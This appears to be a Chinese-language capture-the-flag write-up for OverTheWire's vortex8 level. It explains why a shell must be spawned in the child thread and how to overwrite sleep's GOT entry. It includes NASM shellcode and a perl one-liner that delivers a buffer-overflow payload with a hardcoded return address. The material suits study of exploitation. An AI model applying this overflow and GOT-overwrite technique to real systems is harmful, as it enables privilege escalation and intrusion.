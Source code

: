 ```yaml
---
title: vortex8
author: rk700
layout: post
categories:
  - writeup
tags:
  - OverTheWire
  - exploit
---
```

这道题里用了setresuid。但是调用的方式是通过syscall，我实验了下，如果是直接setresuid，那么子线程的uid被改变了；而如果是syscall，那么子线程的uid不变。现在还不清楚这是为什么，估计是和signal什么的有关。

总之，现在必须在子线程里invoke shell。我们还是可以通过修改got来做到。也就是说，先在父进程unsafecode里执行我们的命令，来修改got，然后让父进程先不要退出（否则子进程也结束了）；然后子进程再调用的时候就会跳到修改后的地方，我们在那里放上payload

可以通过

<pre>$ objump -R vortex8</pre>

来获得函数在got的地址。我想试着修改fflush的地址，但没成功，不知道是为什么。修改sleep是可以的

{% highlight nasm %}
BITS 32

mov ebx, 0x0804a008 ;sleep
mov eax, [ebx]
mov dword [ebx], 0xffffd8f2 ;SHELLCODE

loop:
jmp loop
{% endhighlight %}

最后的部分是无限循环，这样主线程就不会先于子线程退出

确定了strcpy的目标到返回地址的距离然后 

<pre>$ /tmp/nabla$ /vortex/vortex8 `perl -e 'print "A"x1021 . "\xbb\x08\xa0\x04\x08\x8b\x03\xc7\x03\xf2\xd8\xff\xff\xeb\xfe"  . "\xbd\xd2\xff\xff"'`</pre>
